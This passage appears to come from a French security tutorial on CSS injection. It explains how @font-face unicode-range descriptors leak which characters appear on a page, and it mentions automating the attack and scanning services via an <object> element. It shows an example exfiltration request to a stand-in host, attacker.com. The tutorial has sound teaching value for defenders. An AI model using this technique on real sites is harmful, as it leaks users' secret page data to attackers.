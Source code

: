 {% code overflow="wrap" %}
```http
GET /?leak=s HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Bien sur, ici l'attaquant va également récupérer les caractères composants les mots clés de Javascript, par exemple "var" ici.
{% endhint %}

### Automatisation de l'attaque

L'attaque étant limitée (il est seulement  possible de savoir si un caractère est présent ou non) l'exploitation par injection d'iframe effectuée pour les sélecteurs CSS n'est pas obligatoire. Afin de déterminer la présence de caractères alphanumériques (non sensibles à la casse) le partage d'un seul lien malicieux peut être suffisant.

Exemple de 5 requêtes représentant l'information "s3cr3t" récupérée :

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Un PoC minimaliste est disponible [ici](https://github.com/Sharpforce/PoC-CSS-injection/tree/master/font-face-and-unicode-descriptor).

### Scanner des services et des ressources

Si l'attaquant est également en mesure de contrôler un élément HTML tel qu'un `<object></object>`, il devient alors possible de scanner des services réseaux ainsi que des ressources HTTP. Le code vulnérable utilisé dans les prochains exemples est le suivant :&#x20;
